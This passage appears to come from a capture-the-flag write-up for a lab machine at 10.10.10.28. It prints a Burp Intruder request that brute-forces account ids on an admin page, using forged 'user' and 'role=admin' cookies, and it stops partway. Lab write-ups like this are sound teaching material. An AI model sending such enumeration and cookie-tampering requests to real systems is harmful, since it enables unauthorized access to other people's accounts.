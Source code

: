 Here we see that this is an admin account with access id 34322

- `Viewing the uploads section`
<p align="center">
  <img width="700" height="400" src="Unable_to_upload.png">
</p>
Here nothing can be uploaded from admin account, it needed super admin account

- [`From Burpsuite bruteforce is done from Intruder tab`](burp_req_bruteforce.txt)
```
GET /cdn-cgi/login/admin.php?content=accounts&id=§1§ HTTP/1.1
Host: 10.10.10.28
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: user=34322; role=admin
Connection: close
```
<p align="center">